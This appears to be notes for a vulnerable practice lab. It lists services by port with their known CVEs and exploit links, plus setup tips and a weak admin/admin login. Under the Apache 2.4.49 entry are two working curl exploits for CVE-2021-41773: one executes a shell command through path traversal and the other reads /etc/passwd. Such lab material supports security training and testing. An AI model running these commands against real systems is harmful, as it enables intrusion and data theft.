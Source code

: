 1. Hidden dir, password attack, **tcp 8511**: [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613). [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Hidden dir, SQLi, **tcp 8513**: [CVE-2014-3704 Drupalgeddon SQLi Drupal <7.32](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704). 
4. WP: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)
5. SQLi ECShop 4.x, **tcp 8510**: [ECShop 4.x collection_list SQL injection](https://github.com/vulhub/vulhub/tree/master/ecshop/collection_list-sqli)

